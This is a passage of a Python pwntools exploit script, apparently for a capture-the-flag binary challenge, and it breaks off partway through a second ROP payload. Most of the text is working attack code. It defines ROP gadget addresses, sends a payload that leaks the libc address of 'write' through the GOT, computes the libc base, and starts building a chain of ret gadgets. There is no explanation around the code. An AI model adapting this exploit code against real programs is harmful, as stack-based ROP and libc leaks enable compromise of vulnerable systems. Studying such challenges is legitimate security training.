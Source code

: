 ```py
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

poprsi_popr15 = 0x0000000000400b51
poprdi = 0x0000000000400b53
ret = 0x0000000000400646
moveax_leave = 0x0000000000400ae0
companion = 0x00602060
data = 0x00602500
reset_check = 0x00400900
hidden_func = exe.sym["hidden_func"]

io.recvuntil("> ")
io.send(p64(reset_check) + p64(hidden_func)[:-1])

io.recvuntil("> ")
io.sendline("42")

payload = flat({
    0x40 - 0x1c: p32(8),
    0x40 - 0x18: exe.got["write"],
    0x40: companion,
    0x40 + 8: [
        moveax_leave,
        data,
        ],
    })

io.recvuntil("> ")
io.send(payload)

leak = io.recv(numb=8)
libc.address = u64(leak.ljust(8, b'\x00')) - libc.sym["write"]
print(hex(libc.address))

payload = flat({
    0x40 - 0x1c: p32(8),
    0x40 - 0x18: 0,
    0x40: companion,
    0x40 + 8: [
        ret,
        ret,
        ret,
        ret,
        ret,
        ret,
        ret,
        ret,
        ret,
```